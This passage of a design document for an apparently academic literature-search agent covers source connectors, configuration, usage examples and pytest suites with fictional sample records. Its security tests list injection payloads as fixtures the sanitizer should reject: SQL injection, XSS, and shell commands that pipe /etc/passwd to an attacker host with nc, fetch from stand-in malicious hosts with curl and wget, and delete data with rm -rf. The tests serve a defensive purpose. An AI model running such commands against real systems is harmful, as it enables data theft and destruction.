                    target_connectors[source_name] = connector
        
        # Execute searches in parallel
        search_tasks = []
        for source_name, connector in target_connectors.items():
            task = asyncio.create_task(
                self._execute_connector_search(connector, source_name, query, limit_per_source)
            )
            search_tasks.append(task)
        
        # Yield results as they become available
        for completed_task in asyncio.as_completed(search_tasks):
            try:
                async for result in await completed_task:
                    yield result
            except Exception as e:
                # Log error but continue with other sources
                self.logger.error("Connector search failed",
                                error=str(e),
                                error_type=type(e).__name__)
                continue
    
    async def _execute_connector_search(self, 
                                      connector: BaseSourceConnector,
                                      source_name: str,
                                      query: str,
                                      limit: int) -> AsyncGenerator[Dict[str, Any], None]:
        """
        Execute search on a single connector with error handling and monitoring.
        
        This internal method handles the execution of a search on a specific
        connector, including error recovery, performance monitoring, and
        result standardization.
        
        Args:
            connector: The connector instance to execute the search on
            source_name: Name of the source for logging and metrics
            query: The research query to execute
            limit: Maximum number of results to return
            
        Yields:
            Standardized search results from the connector
        """
        start_time = time.time()
        result_count = 0
        
        try:
            async for result in connector.search(query, limit=limit):
                # Add source metadata to result
                result['_source'] = source_name
                result['_retrieved_at'] = datetime.now().isoformat()
                
                yield result
                result_count += 1
                
        except Exception as e:
            # Track error for health monitoring
            self._error_counts[source_name] = self._error_counts.get(source_name, 0) + 1
            
            self.logger.error("Connector search error",
                            source_name=source_name,
                            query=query[:100],
                            error=str(e),
                            error_type=type(e).__name__)
            raise
        
        finally:
            # Record performance metrics
            execution_time = time.time() - start_time
            if source_name not in self._performance_metrics:
                self._performance_metrics[source_name] = {}
            
            metrics = self._performance_metrics[source_name]
            metrics['last_execution_time'] = execution_time
            metrics['last_result_count'] = result_count
            metrics['average_time_per_result'] = (
                execution_time / result_count if result_count > 0 else 0
            )
```

from typing import Protocol, runtime_checkable

@runtime_checkable
class SourceConnector(Protocol):
    """Protocol defining the interface for source connectors."""

    source_name: str
    
    async def search(self, query: str, filters: SearchFilters) -> List[Dict]:
        """Execute search with the source."""
        ...
    
    def parse_record(self, raw_record: Dict) -> NormalizedRecord:
        """Parse raw record into normalized format."""
        ...
    
    async def get_rate_limit_info(self) -> Dict[str, Any]:
        """Get current rate limit status."""
        ...
    
    async def validate_credentials(self) -> bool:
        """Validate API credentials."""
        ...

class BaseSourceConnector(ABC):
    """Base class for all source connectors."""

    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.source_name = self.__class__.__name__.replace('Connector', '').lower()
        self.session_manager = None
        self.rate_limiter = None
    
    @abstractmethod
    async def search(self, query: str, filters: SearchFilters) -> List[Dict]:
        """Execute search with the source."""
        pass
    
    @abstractmethod
    def parse_record(self, raw_record: Dict) -> NormalizedRecord:
        """Parse raw record into normalized format."""
        pass
    
    async def get_rate_limit_info(self) -> Dict[str, Any]:
        """Get current rate limit status - default implementation."""
        return {
            'requests_remaining': None,
            'reset_time': None,
            'window': None
        }
    
    async def validate_credentials(self) -> bool:
        """Validate API credentials - default implementation."""
        try:
            # Perform a minimal test query
            test_result = await self.search("test", SearchFilters())
            return True
        except Exception:
            return False

class ConnectorRegistry:
    """Registry for managing source connectors."""

    def __init__(self):
        self._connectors: Dict[str, Type[BaseSourceConnector]] = {}
        self._instances: Dict[str, BaseSourceConnector] = {}
        self._configurations: Dict[str, Dict[str, Any]] = {}
    
    def register_connector(self, connector_class: Type[BaseSourceConnector], 
                          config: Dict[str, Any]):
        """Register a new source connector."""
        source_name = connector_class.__name__.replace('Connector', '').lower()
        self._connectors[source_name] = connector_class
        self._configurations[source_name] = config
        
        logger.info("Connector registered", 
                   source=source_name,
                   connector_class=connector_class.__name__)
    
    def get_connector(self, source_name: str) -> Optional[BaseSourceConnector]:
        """Get connector instance for a source."""
        if source_name not in self._instances:
            if source_name in self._connectors:
                connector_class = self._connectors[source_name]
                config = self._configurations[source_name]
                self._instances[source_name] = connector_class(config)
            else:
                logger.error("Connector not found", source=source_name)
                return None
        
        return self._instances[source_name]
    
    def list_available_sources(self) -> List[str]:
        """List all available source names."""
        return list(self._connectors.keys())
    
    async def validate_all_connectors(self) -> Dict[str, bool]:
        """Validate credentials for all registered connectors."""
        results = {}
        
        for source_name in self._connectors.keys():
            connector = self.get_connector(source_name)
            if connector:
                try:
                    results[source_name] = await connector.validate_credentials()
                except Exception as e:
                    logger.error("Connector validation failed", 
                               source=source_name, error=str(e))
                    results[source_name] = False
            else:
                results[source_name] = False
        
        return results
    
    def remove_connector(self, source_name: str):
        """Remove a connector from the registry."""
        if source_name in self._connectors:
            del self._connectors[source_name]
        if source_name in self._instances:
            del self._instances[source_name]
        if source_name in self._configurations:
            del self._configurations[source_name]
        
        logger.info("Connector removed", source=source_name)

# Example of extending the framework with a new connector

class BioRxivConnector(BaseSourceConnector):
    """Connector for bioRxiv preprint server."""

    def __init__(self, config: Dict[str, Any]):
        super().__init__(config)
        self.base_url = "https://api.biorxiv.org/details"
    
    async def search(self, query: str, filters: SearchFilters) -> List[Dict]:
        """Search bioRxiv using their API."""
        # Implementation for bioRxiv search
        params = {
            'server': 'biorxiv',
            'format': 'json'
        }
        
        # Add date filtering if specified
        if filters.date_range:
            start_date, end_date = filters.date_range
            params['interval'] = f"{start_date.strftime('%Y-%m-%d')}/{end_date.strftime('%Y-%m-%d')}"
        
        # Execute search logic here
        # Return list of raw records
        return []
    
    def parse_record(self, raw_record: Dict) -> NormalizedRecord:
        """Parse bioRxiv record into normalized format."""
        return NormalizedRecord(
            record_id=f"biorxiv_{raw_record.get('doi', '').replace('/', '_')}",
            title=raw_record.get('title'),
            authors=raw_record.get('authors', '').split(';'),
            abstract=raw_record.get('abstract'),
            doi=raw_record.get('doi'),
            publication_date=datetime.strptime(raw_record.get('date'), '%Y-%m-%d'),
            journal='bioRxiv',
            source='biorxiv',
            url=f"https://www.biorxiv.org/content/{raw_record.get('doi')}",
            open_access=True,
            raw_data=raw_record
        )

class ConnectorFactory:
    """Factory for creating and configuring connectors."""

    @staticmethod
    def create_default_registry() -> ConnectorRegistry:
        """Create registry with default connectors."""
        registry = ConnectorRegistry()
        
        # Register standard connectors
        default_configs = {
            'semantic_scholar': {
                'api_key': os.environ.get('SEMANTIC_SCHOLAR_API_KEY'),
                'base_url': 'https://api.semanticscholar.org/graph/v1',
                'rate_limit': 100  # requests per second
            },
            'pubmed': {
                'api_key': os.environ.get('PUBMED_API_KEY'),
                'base_url': 'https://eutils.ncbi.nlm.nih.gov/entrez/eutils',
                'rate_limit': 10  # requests per second with API key
            },
            'crossref': {
                'base_url': 'https://api.crossref.org/works',
                'rate_limit': 50  # requests per second
            }
        }
        
        # Register connectors (assumes connector classes exist)
        for source, config in default_configs.items():
            connector_class_name = f"{source.title().replace('_', '')}Connector"
            # In real implementation, import actual connector classes
            # registry.register_connector(connector_class, config)
        
        return registry

```

## Configuration

### Enhanced Agent Configuration

```python
class LSAConfig(BaseModel):
    default_sources: list[str] = ["semantic_scholar", "pubmed", "crossref"]
    max_results_per_source: int = 100
    deduplication_threshold: float = 0.85
    api_keys: dict[str, str]
    rate_limits: dict[str, int]  # requests per minute
    request_timeout: int = 30
    retry_attempts: int = 3
    
    # Enhanced configuration options
    validation_enabled: bool = True
    security_mode: str = "strict"  # strict, moderate, permissive
    quota_management_enabled: bool = True
    structured_logging: bool = True
    connector_auto_discovery: bool = False
    performance_monitoring: bool = True
    
    # Quality thresholds
    min_completeness_score: float = 0.6
    max_error_rate: float = 0.1
    alert_threshold: int = 10
    
    # Security settings
    query_sanitization: bool = True
    api_key_encryption: bool = True
    audit_logging: bool = True
```

### Environment Variables

```bash
# API Keys
PUBMED_API_KEY=your_pubmed_key
SEMANTIC_SCHOLAR_API_KEY=your_semantic_scholar_key
CROSSREF_API_KEY=your_crossref_key

# Rate Limiting
LSA_MAX_CONCURRENT_REQUESTS=5
LSA_DEFAULT_TIMEOUT=30
LSA_RETRY_ATTEMPTS=3
```

## Integration with Other Agents

### Downstream Integration

- **Screening & PRISMA Agent**: Receives normalized records for screening
- **Database Agent**: Stores search results and metadata
- **Research Manager**: Receives search reports and metrics

### Data Flow



## Usage Examples

### Basic Literature Search

```python
# Via MCP action
search_action = ResearchAction(
    task_id="lit_search_001",
    context_id="systematic_review_001",
    agent_type="LiteratureSearch",
    action="search_literature",
    payload={
        "lit_review_id": "review_2024_001",
        "query": "machine learning healthcare diagnosis",
        "sources": ["semantic_scholar", "pubmed", "ieee"],
        "max_results": 500,
        "filters": {
            "date_range": ["2020-01-01", "2024-12-31"],
            "publication_types": ["journal_article", "conference_paper"],
            "languages": ["en"],
            "min_citations": 5
        }
    }
)
```

### Advanced Filtered Search

```python
# Systematic review with specific criteria
systematic_search = {
    "lit_review_id": "covid_treatment_review",
    "query": "(COVID-19 OR SARS-CoV-2) AND (treatment OR therapy) AND (clinical trial OR randomized)",
    "sources": ["pubmed", "crossref", "semantic_scholar"],
    "max_results": 1000,
    "filters": {
        "date_range": ["2020-01-01", "2024-07-01"],
        "publication_types": ["journal_article"],
        "study_types": ["clinical_trial", "systematic_review", "meta_analysis"],
        "languages": ["en", "es", "fr"],
        "open_access_only": True
    }
}
```

## Enhanced Testing Strategy

Testing is fundamental to ensuring the reliability, security, and performance of the Literature Search Agent. Academic research systems require exceptionally high reliability because researchers depend on accurate, complete results for their scholarly work. A comprehensive testing strategy addresses multiple dimensions of system quality while ensuring continuous validation of all components.

The testing framework encompasses several critical areas:

1. **Unit Testing**: Comprehensive validation of individual components and functions
2. **Integration Testing**: Verification of component interactions and data flow
3. **Performance Testing**: Load testing and optimization validation
4. **Security Testing**: Vulnerability assessment and penetration testing
5. **End-to-End Testing**: Complete workflow validation from query to results
6. **Regression Testing**: Continuous validation of existing functionality

### Comprehensive Test Suite Architecture

The testing architecture implements a layered approach that validates system behavior at multiple levels of abstraction. This approach ensures that issues are caught early in the development cycle while maintaining comprehensive coverage of all system functionality.

The test suite is designed with several key principles:

- **Test Isolation**: Each test can run independently without side effects
- **Realistic Test Data**: Use of actual academic data samples for validation
- **Performance Benchmarking**: Continuous measurement of system performance
- **Security Validation**: Regular assessment of security measures
- **Failure Simulation**: Testing of error conditions and recovery mechanisms

#### Unit Testing Framework

Unit tests form the foundation of the testing strategy, providing granular validation of individual components. The framework uses pytest with extensive mocking to isolate components and ensure predictable test conditions.

```python
import pytest
import asyncio
from unittest.mock import Mock, patch, AsyncMock, MagicMock
from datetime import datetime, timedelta
import time
from typing import List, Dict, Any

class TestRecordValidator:
    """
    Comprehensive test suite for record validation functionality.
    
    This test class validates all aspects of the record validation system,
    including completeness scoring, quality assessment, error detection,
    and edge case handling. The tests use realistic academic data to ensure
    validation logic works correctly with real-world content.
    """
    
    @pytest.fixture
    def validator(self):
        """
        Provide a fresh validator instance for each test.
        
        This fixture ensures test isolation by providing a new validator
        instance with default configuration for each test method.
        """
        return RecordValidator()
    
    @pytest.fixture
    def sample_complete_record(self):
        """
        Provide a high-quality, complete academic record for testing.
        
        This fixture represents the ideal case of a well-formed academic
        record with all required fields and high-quality content.
        """
        return NormalizedRecord(
            record_id="test_001",
            title="Machine Learning Applications in Precision Medicine: A Systematic Review and Meta-Analysis",
            authors=["Smith, Jennifer A.", "Doe, Alexander B.", "Brown, Katherine C.", "Wilson, David M."],
            abstract=(
                "Background: Machine learning (ML) has emerged as a transformative technology in precision medicine, "
                "offering unprecedented opportunities for personalized treatment strategies. This systematic review "
                "examines the current state of ML applications in precision medicine and evaluates their clinical "
                "effectiveness. Methods: We conducted a comprehensive search of PubMed, Scopus, and Web of Science "
                "databases from 2015 to 2023, identifying 1,247 relevant studies. Results: Our analysis reveals "
                "significant improvements in diagnostic accuracy (mean improvement: 23.4%, 95% CI: 18.2-28.6%) "
                "and treatment efficacy (mean improvement: 31.2%, 95% CI: 25.1-37.3%) when ML approaches are "
                "integrated into clinical workflows. Conclusion: Machine learning demonstrates substantial promise "
                "for advancing precision medicine, though challenges remain in clinical integration and validation."
            ),
            doi="10.1038/s41591-024-2847-3",
            publication_date=datetime(2024, 3, 15),
            journal="Nature Medicine",
            volume="30",
            issue="3",
            pages="847-865",
            source="pubmed",
            url="https://www.nature.com/articles/s41591-024-2847-3",
            open_access=True,
            subject_tags=["precision medicine", "machine learning", "systematic review", "meta-analysis"],
            citation_count=127,
            impact_factor=87.24
        )
    
    def test_validate_complete_record(self, validator, sample_complete_record):
        """
        Test validation of a complete, high-quality academic record.
        
        This test validates that the system correctly identifies and scores
        high-quality academic records with complete metadata and content.
        The test verifies both the validation result and the completeness
        scoring algorithm.
        """
        result = validator.validate_record(sample_complete_record)
        
        # Verify overall validation success
        assert result.is_valid == True, "Complete record should be valid"
        assert result.completeness_score >= 0.95, f"Expected high completeness score, got {result.completeness_score}"
        assert len(result.errors) == 0, f"Complete record should have no errors, found: {result.errors}"
        
        # Verify specific quality metrics
        assert result.quality_score >= 0.9, "High-quality record should have high quality score"
        assert "title_quality" in result.quality_metrics
        assert "abstract_quality" in result.quality_metrics
        assert "author_quality" in result.quality_metrics
        
        # Verify title quality assessment
        title_quality = result.quality_metrics["title_quality"]
        assert title_quality["length_score"] > 0.8, "Title should meet length requirements"
        assert title_quality["descriptiveness_score"] > 0.7, "Title should be descriptive"
        
        # Verify abstract quality assessment
        abstract_quality = result.quality_metrics["abstract_quality"]
        assert abstract_quality["length_score"] > 0.8, "Abstract should meet length requirements"
        assert abstract_quality["structure_score"] > 0.7, "Abstract should be well-structured"
        assert abstract_quality["keyword_density"] > 0.1, "Abstract should contain relevant keywords"
    
    def test_validate_incomplete_record(self, validator):
        """
        Test validation of an incomplete record with missing critical fields.
        
        This test ensures the validation system correctly identifies quality
        issues and provides meaningful feedback for improvement. It validates
        both error detection and completeness scoring for low-quality records.
        """
        incomplete_record = NormalizedRecord(
            record_id="test_002",
            title="AI",  # Too short and non-descriptive
            authors=[],  # Missing authors
            abstract="",  # Missing abstract
            source="test",
            publication_date=None  # Missing date
        )
        
        result = validator.validate_record(incomplete_record)
        
        # Verify validation failure
        assert result.is_valid == False, "Incomplete record should be invalid"
        assert result.completeness_score < 0.4, f"Expected low completeness score, got {result.completeness_score}"
        assert len(result.errors) > 0, "Incomplete record should have errors"
        
        # Verify specific error detection
        error_types = [error.error_type for error in result.errors]
        assert ErrorType.TITLE_TOO_SHORT in error_types, "Should detect short title"
        assert ErrorType.MISSING_AUTHORS in error_types, "Should detect missing authors"
        assert ErrorType.MISSING_ABSTRACT in error_types, "Should detect missing abstract"
        assert ErrorType.MISSING_PUBLICATION_DATE in error_types, "Should detect missing date"
        
        # Verify quality score reflects issues
        assert result.quality_score < 0.3, "Poor quality record should have low quality score"
    
    def test_batch_validation_performance(self, validator):
        """
        Test batch validation performance with large datasets.
        
        This test ensures the validation system can handle large volumes
        of records efficiently, which is critical for processing search
        results from multiple academic sources simultaneously.
        """
        # Generate test dataset
        test_records = []
        for i in range(1000):
            record = NormalizedRecord(
                record_id=f"perf_test_{i:04d}",
                title=f"Test Article {i}: A Study of Academic Performance Metrics",
                authors=[f"Author_{i}_A", f"Author_{i}_B"],
                abstract=f"This is a test abstract for article {i}. " * 10,  # Reasonable length
                source="test_source",
                publication_date=datetime(2024, 1, 1) + timedelta(days=i % 365)
            )
            test_records.append(record)
        
        # Measure validation performance
        start_time = time.time()
        results = validator.validate_batch(test_records)
        end_time = time.time()
        
        # Verify performance requirements
        processing_time = end_time - start_time
        records_per_second = len(test_records) / processing_time
        
        assert records_per_second >= 100, f"Expected ≥100 records/sec, got {records_per_second:.1f}"
        assert len(results) == len(test_records), "Should process all records"
        
        # Verify result quality
        valid_results = [r for r in results if r.is_valid]
        assert len(valid_results) > 0, "Should have some valid results"

class TestAPIQuotaManager:
    """
    Comprehensive test suite for API quota management functionality.
    
    This test class validates all aspects of quota management including
    rate limiting, source prioritization, usage tracking, and predictive
    availability checking. The tests simulate various quota scenarios
    to ensure robust handling of API limitations.
    """
    
    @pytest.fixture
    def quota_manager(self):
        """
        Provide a fresh quota manager instance for each test.
        
        This fixture sets up a quota manager with realistic test configuration
        that mirrors production settings but with manageable limits for testing.
        """
        manager = APIQuotaManager()
        
        # Configure test limits for primary sources
        test_sources = {
            'semantic_scholar': QuotaLimit(
                requests_per_minute=60,
                requests_per_hour=1000,
                requests_per_day=10000
            ),
            'pubmed': QuotaLimit(
                requests_per_minute=30,
                requests_per_hour=500,
                requests_per_day=5000
            ),
            'crossref': QuotaLimit(
                requests_per_minute=120,
                requests_per_hour=2000,
                requests_per_day=20000
            )
        }
        
        for source, limits in test_sources.items():
            manager.configure_source_limits(source, limits)
        
        return manager
    
    @pytest.mark.asyncio
    async def test_quota_availability_fresh_source(self, quota_manager):
        """
        Test quota availability checking for a fresh source with no usage.
        
        This test validates the basic quota checking functionality when
        sources have not yet consumed any of their allocated quotas.
        """
        # Check availability for fresh source
        result = await quota_manager.check_quota_availability('semantic_scholar', 10)
        
        assert result['available'] == True, "Fresh source should have quota available"
        assert result['requests_available'] >= 10, "Should have sufficient requests available"
        assert 'wait_time_seconds' not in result, "Should not require waiting"
        
        # Verify detailed availability information
        assert 'minute_limit' in result, "Should provide minute limit information"
        assert 'hour_limit' in result, "Should provide hour limit information"
        assert 'day_limit' in result, "Should provide day limit information"
        
        minute_info = result['minute_limit']
        assert minute_info['available'] == True, "Minute quota should be available"
        assert minute_info['remaining'] >= 10, "Should have sufficient minute quota"
    
    @pytest.mark.asyncio
    async def test_quota_exhaustion_and_wait_time(self, quota_manager):
        """
        Test quota exhaustion detection and wait time calculation.
        
        This test validates that the system correctly identifies when quotas
        are exhausted and provides accurate wait time estimates for when
        quota will become available again.
        """
        source = 'semantic_scholar'
        
        # Exhaust minute quota
        await quota_manager.record_request(source, 60)  # Use full minute quota
        
        # Check availability - should be exhausted
        result = await quota_manager.check_quota_availability(source, 1)
        
        assert result['available'] == False, "Should detect quota exhaustion"
        assert 'wait_time_seconds' in result, "Should provide wait time"
        assert result['wait_time_seconds'] > 0, "Wait time should be positive"
        assert result['wait_time_seconds'] <= 60, "Wait time should be within minute boundary"
        
        # Verify limit information shows exhaustion
        minute_info = result['minute_limit']
        assert minute_info['available'] == False, "Minute quota should be exhausted"
        assert minute_info['remaining'] == 0, "Should have no remaining minute quota"
        
        # Hour and day quotas should still be available
        hour_info = result['hour_limit']
        day_info = result['day_limit']
        assert hour_info['available'] == True, "Hour quota should still be available"
        assert day_info['available'] == True, "Day quota should still be available"
    
    @pytest.mark.asyncio
    async def test_source_prioritization_with_quota_constraints(self, quota_manager):
        """
        Test intelligent source prioritization when quotas are constrained.
        
        This test validates the system's ability to dynamically prioritize
        sources based on available quotas, ensuring optimal resource utilization
        when some sources are experiencing quota limitations.
        """
        sources = ['semantic_scholar', 'pubmed', 'crossref']
        
        # Exhaust quota for highest priority source (semantic_scholar)
        await quota_manager.record_request('semantic_scholar', 60)
        
        # Partially exhaust quota for second priority source (pubmed)
        await quota_manager.record_request('pubmed', 25)
        
        # Get optimal sources for a batch request
        optimal_sources = await quota_manager.get_optimal_sources(sources, 10)
        
        # Verify prioritization logic
        assert 'semantic_scholar' not in optimal_sources, "Exhausted source should be excluded"
        assert 'crossref' in optimal_sources, "Source with available quota should be included"
        
        # pubmed should be included with limited allocation
        if 'pubmed' in optimal_sources:
            pubmed_allocation = optimal_sources['pubmed']
            assert pubmed_allocation <= 5, "Limited quota source should have reduced allocation"
        
        # Verify crossref gets primary allocation
        crossref_allocation = optimal_sources.get('crossref', 0)
        assert crossref_allocation >= 5, "Primary available source should get substantial allocation"
    
    @pytest.mark.asyncio
    async def test_predictive_quota_management(self, quota_manager):
        """
        Test predictive quota management for future request planning.
        
        This test validates the system's ability to predict quota availability
        for future time periods, enabling intelligent request scheduling
        and resource planning.
        """
        source = 'semantic_scholar'
        
        # Use significant portion of hourly quota
        await quota_manager.record_request(source, 800)  # 80% of hourly quota
        
        # Test predictions for different future scenarios
        predictions = await quota_manager.predict_quota_availability(
            source, 
            request_counts=[50, 100, 200, 300],
            time_horizons=[300, 1800, 3600]  # 5 min, 30 min, 1 hour
        )
        
        # Verify prediction structure
        assert len(predictions) == 3, "Should provide predictions for all time horizons"
        
        # Check 5-minute prediction
        five_min_pred = predictions[0]
        assert five_min_pred['time_horizon'] == 300, "Should match requested time horizon"
        assert 'availability' in five_min_pred, "Should provide availability predictions"
        
        # Small requests should be available soon
        small_request_availability = five_min_pred['availability'].get(50, {})
        assert small_request_availability.get('available', False), "Small requests should be available soon"
        
        # Large requests may require longer wait
        large_request_availability = five_min_pred['availability'].get(300, {})
        large_available = large_request_availability.get('available', False)
        if not large_available:
            assert 'estimated_wait_time' in large_request_availability, "Should provide wait time for unavailable requests"

class TestSecurityFramework:
    """
    Comprehensive test suite for security framework functionality.
    
    This test class validates all security measures including query
    sanitization, API key management, data protection, and audit logging.
    Security testing is critical for protecting sensitive research data
    and maintaining user trust.
    """
    
    @pytest.fixture
    def sanitizer(self):
        """Provide a fresh query sanitizer for each test."""
        return QuerySanitizer()
    
    @pytest.fixture
    def key_manager(self):
        """Provide a fresh key manager for each test."""
        return SecureKeyManager()
    
    def test_sql_injection_detection(self, sanitizer):
        """
        Test detection and blocking of SQL injection attempts.
        
        This test validates that the sanitizer correctly identifies and
        blocks various SQL injection patterns that could be used to
        manipulate database queries or extract sensitive information.
        """
        # Test various SQL injection patterns
        injection_attempts = [
            "machine learning'; DROP TABLE users; --",
            "SELECT * FROM papers WHERE title = 'AI' UNION SELECT password FROM users",
            "artificial intelligence\" OR 1=1 --",
            "deep learning /* comment */ AND (SELECT COUNT(*) FROM sensitive_data) > 0"
        ]
        
        for injection_query in injection_attempts:
            with pytest.raises(SecurityException) as exc_info:
                sanitizer.sanitize_query(injection_query, strict_mode=True)
            
            assert "SQL Injection" in str(exc_info.value), f"Should detect SQL injection in: {injection_query[:50]}..."
    
    def test_command_injection_prevention(self, sanitizer):
        """
        Test prevention of command injection attacks.
        
        This test ensures that malicious commands cannot be injected
        through search queries to compromise the system or access
        unauthorized resources.
        """
        command_injections = [
            "machine learning; wget http://malicious.com/payload",
            "AI research $(curl -s http://attacker.com/steal-data)",
            "deep learning | nc attacker.com 4444 < /etc/passwd",
            "neural networks && rm -rf /important/data"
        ]
        
        for cmd_injection in command_injections:
            with pytest.raises(SecurityException) as exc_info:
                sanitizer.sanitize_query(cmd_injection, strict_mode=True)
            
            assert "Command Injection" in str(exc_info.value), f"Should detect command injection in: {cmd_injection[:50]}..."
    
    def test_legitimate_query_preservation(self, sanitizer):
        """
        Test that legitimate research queries are preserved through sanitization.
        
        This test ensures that the security measures don't interfere with
        legitimate academic research queries, maintaining system usability
        while providing protection.
        """
        legitimate_queries = [
            "machine learning applications in healthcare",
            "systematic review of deep learning approaches",
            "meta-analysis: artificial intelligence AND medical diagnosis",
            "longitudinal study of AI adoption in clinical practice",
            "randomized controlled trial: ML-guided therapy vs standard care"
        ]
        
        for query in legitimate_queries:
            sanitized_query, warnings = sanitizer.sanitize_query(query, strict_mode=True)
            
            # Should not raise exceptions
            assert sanitized_query is not None, f"Legitimate query should be sanitized: {query}"
            assert len(warnings) == 0, f"Legitimate query should not trigger warnings: {query}"
            
            # Content should be preserved (allowing for encoding)
            # Basic content should be recognizable after sanitization
            original_words = set(query.lower().split())
            sanitized_words = set(sanitized_query.lower().split())
            
            # Most original words should be preserved
            preserved_ratio = len(original_words.intersection(sanitized_words)) / len(original_words)
            assert preserved_ratio >= 0.8, f"Should preserve most content: {query} -> {sanitized_query}"
    
    @pytest.mark.asyncio 
    async def test_api_key_secure_storage_and_retrieval(self, key_manager):
        """
        Test secure API key storage and retrieval functionality.
        
        This test validates that API keys are stored securely using
        appropriate encryption and can be reliably retrieved when needed.
        """
        test_service = "test_academic_source"
        test_api_key = "sk-test123456789abcdef"
        
        # Test key storage
        try:
            key_manager.store_api_key(test_service, test_api_key)
        except Exception as e:
            pytest.fail(f"Key storage should not fail: {e}")
        
        # Test key retrieval
        retrieved_key = key_manager.get_api_key(test_service)
        assert retrieved_key == test_api_key, "Retrieved key should match stored key"
        
        # Test key rotation
        new_api_key = "sk-new987654321fedcba"
        key_manager.rotate_api_key(test_service, new_api_key)
        
        rotated_key = key_manager.get_api_key(test_service)
        assert rotated_key == new_api_key, "Should retrieve rotated key"
        assert rotated_key != test_api_key, "Should not retrieve old key after rotation"
    
    def test_api_key_encryption_functionality(self, key_manager):
        """
        Test API key encryption and decryption functionality.
        
        This test validates that the encryption system properly protects
        API keys when system keyring is unavailable, ensuring security
        even in degraded environments.
        """
        # Test encryption/decryption directly
        test_key = "sensitive-api-key-12345"
        
        # Encrypt the key
        encrypted_key = key_manager.cipher_suite.encrypt(test_key.encode())
        assert encrypted_key != test_key.encode(), "Encrypted key should differ from original"
        
        # Decrypt the key
        decrypted_key = key_manager.cipher_suite.decrypt(encrypted_key).decode()
        assert decrypted_key == test_key, "Decrypted key should match original"
        
        # Test that encryption is deterministic for same input
        encrypted_key2 = key_manager.cipher_suite.encrypt(test_key.encode())
        # Note: Fernet encryption includes random nonce, so encrypted values will differ
        # But both should decrypt to the same value
        decrypted_key2 = key_manager.cipher_suite.decrypt(encrypted_key2).decode()
        assert decrypted_key2 == test_key, "Multiple encryptions should decrypt to same value"
```

class TestSecurityFeatures:
    """Test suite for security and sanitization features."""

    def test_query_sanitization(self):
        """Test query sanitization for security."""
        malicious_queries = [
            "<script>alert('xss')</script>cancer research",
            "javascript:void(0); cancer",
            "cancer; rm -rf /",
            "data:text/html,<script>alert('xss')</script>"
        ]
        
        for query in malicious_queries:
            validation = QuerySanitizer.validate_query(query)
            assert validation['is_safe'] == False
            sanitized = QuerySanitizer.sanitize_query(query)
            assert '<script>' not in sanitized
            assert 'javascript:' not in sanitized
    
    def test_api_key_security(self):
        """Test API key secure storage and retrieval."""
        key_manager = SecureKeyManager()
        test_key = "test_api_key_12345"
        
        # Store and retrieve key
        key_manager.store_api_key("test_service", test_key)
        retrieved_key = key_manager.get_api_key("test_service")
        
        assert retrieved_key == test_key
        
        # Test key rotation
        new_key = "new_test_api_key_67890"
        key_manager.rotate_api_key("test_service", new_key)
        rotated_key = key_manager.get_api_key("test_service")
        
        assert rotated_key == new_key

class TestConnectorFramework:
    """Test suite for the extensible connector framework."""

    def test_connector_registration(self):
        """Test registering new connectors."""
        registry = ConnectorRegistry()
        
        # Register a test connector
        class TestConnector(BaseSourceConnector):
            async def search(self, query, filters):
                return [{"title": "Test Paper", "authors": ["Test Author"]}]
            
            def parse_record(self, raw_record):
                return NormalizedRecord(
                    record_id="test_001",
                    title=raw_record["title"],
                    authors=raw_record["authors"],
                    source="test"
                )
        
        registry.register_connector(TestConnector, {"api_key": "test"})
        
        assert "test" in registry.list_available_sources()
        connector = registry.get_connector("test")
        assert connector is not None
        assert isinstance(connector, TestConnector)
    
    @pytest.mark.asyncio
    async def test_connector_validation(self):
        """Test connector credential validation."""
        registry = ConnectorRegistry()
        
        class ValidConnector(BaseSourceConnector):
            async def search(self, query, filters):
                return []
            
            def parse_record(self, raw_record):
                return NormalizedRecord(record_id="test", title="test", source="test")
            
            async def validate_credentials(self):
                return True
        
        registry.register_connector(ValidConnector, {})
        results = await registry.validate_all_connectors()
        
        assert results["valid"] == True

```

#### Integration Testing Framework

Integration tests validate the complex interactions between system components, ensuring that the Literature Search Agent works correctly as a complete system. These tests focus on data flow, component coordination, error propagation, and end-to-end functionality.

The integration testing framework addresses several critical scenarios:

- **Multi-source coordination**: Verifying that searches across multiple academic sources work correctly
- **Data flow validation**: Ensuring data moves correctly through normalization, validation, and storage
- **Error propagation**: Verifying that errors are properly handled and don't cascade
- **Performance integration**: Testing that integrated components meet performance requirements
- **Configuration management**: Validating that system configuration changes work correctly

```python
class TestMultiSourceIntegration:
    """
    Comprehensive integration tests for multi-source search coordination.
    
    This test class validates the complex orchestration of searches across
    multiple academic sources, including result aggregation, deduplication,
    error handling, and performance optimization. The tests simulate realistic
    research scenarios to ensure the system works correctly in production.
    """
    
    @pytest.fixture
    def mock_source_connectors(self):
        """
        Set up mock connectors for integration testing.
        
        This fixture provides realistic mock implementations of academic
        source connectors that simulate the behavior of real APIs including
        response times, error conditions, and data variations.
        """
        return {
            'semantic_scholar': Mock(spec=BaseSourceConnector),
            'pubmed': Mock(spec=BaseSourceConnector),
            'crossref': Mock(spec=BaseSourceConnector),
            'arxiv': Mock(spec=BaseSourceConnector)
        }
    
    @pytest.mark.asyncio
    async def test_coordinated_multi_source_search(self, mock_source_connectors):
        """
        Test coordinated search execution across multiple academic sources.
        
        This test validates the complete multi-source search workflow,
        including query distribution, parallel execution, result aggregation,
        and error handling. The test ensures that the system can effectively
        coordinate searches across different APIs with varying characteristics.
        """
        # Configure mock responses for different sources
        semantic_scholar_results = [
            {
                'title': 'Deep Learning Applications in Medical Imaging: A Comprehensive Review',
                'authors': ['Zhang, L.', 'Wang, M.', 'Chen, S.'],
                'doi': '10.1038/s41591-2024-0123-4',
                'abstract': 'This comprehensive review examines recent advances in deep learning...',
                'source': 'semantic_scholar',
                'publication_date': '2024-01-15',
                'citation_count': 45
            },
            {
                'title': 'Machine Learning in Precision Medicine: Current Applications and Future Directions',
                'authors': ['Smith, J.A.', 'Brown, K.L.'],
                'doi': '10.1016/j.cell.2024.02.015',
                'abstract': 'Machine learning techniques are revolutionizing precision medicine...',
                'source': 'semantic_scholar',
                'publication_date': '2024-02-01',
                'citation_count': 23
            }
        ]
        
        pubmed_results = [
            {
                'title': 'Clinical Implementation of AI-Driven Diagnostic Tools',
                'authors': ['Johnson, R.', 'Davis, A.', 'Wilson, P.'],
                'doi': '10.1056/NEJMoa2024001',
                'abstract': 'Background: Artificial intelligence tools are increasingly being...',
                'source': 'pubmed',
                'publication_date': '2024-01-20',
                'pmid': '38234567'
            },
            {
                'title': 'Systematic Review: AI in Radiology',
